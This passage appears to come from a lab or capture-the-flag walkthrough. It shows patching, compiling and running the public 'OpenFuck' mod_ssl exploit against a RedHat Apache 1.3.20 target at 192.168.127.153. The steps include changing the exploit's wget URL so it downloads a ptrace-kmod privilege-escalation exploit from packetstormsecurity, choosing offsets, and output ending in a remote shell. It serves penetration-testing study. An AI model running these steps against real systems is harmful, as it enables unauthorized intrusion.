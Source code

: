 Next, search for wget in the source and replace the URL with the newer one:

``` plain
http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
```

In the *get_server_hello* function, change the declaration 

``` plain
unsigned char *p, *end; 
```

to 

``` plain
const unsigned char *p, *end;
```

Now we can compile the exploit:

``` plain
gcc -o openfuck openfuck.c -lcrypto
```

Now, if you run it, you will see a range of supported offsets. From our previous scan, we know those applicable to our target are the redhat 1.3.20 versions. We can manually search for them in the offsets or run the following:

``` plain
./openfuck | grep -i redhat | grep "1.3.20"
```

This will give us 2 offsets:

``` plain
0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1

0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2
```

So, let's try it out:

``` plain
./openfuck 0x6a 192.168.127.153 443

Establishing SSL connection

cipher: 0x4043808c   ciphers: 0x80fe500

Ready to send shellcode

Spawning shell...

Good Bye!
```

Ok, that one didn't work. Let's try the other one:

``` plain
./openfuck 0x6b 192.168.127.153 443

Establishing SSL connection

cipher: 0x4043808c   ciphers: 0x80fc4e8

Ready to send shellcode

Spawning shell...

bash: no job control in this shell

bash-2.05$

```